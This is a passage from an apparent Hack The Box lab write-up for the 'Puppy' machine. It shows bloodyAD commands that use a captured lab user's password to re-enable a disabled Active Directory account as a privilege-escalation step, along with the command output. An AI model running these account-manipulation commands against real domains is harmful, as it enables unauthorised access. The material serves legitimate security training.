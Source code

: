 But Adam's account was disabled...

![](images/Pasted%20image%2020250717171737.png)

### 🧪 Exploitation

#### 🔼 PrivEsc to Adam Silver

I used `bloodyAD` with Ant's credentials to Enable Adam's account.

```
fcoomans@kali:~/htb/puppy$ bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' get object --attr userAccountControl adam.silver

distinguishedName: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD

fcoomans@kali:~/htb/puppy$ bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac -f ACCOUNTDISABLE adam.silver
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl

fcoomans@kali:~/htb/puppy$ bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' get object --attr userAccountControl adam.silver

distinguishedName: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
```
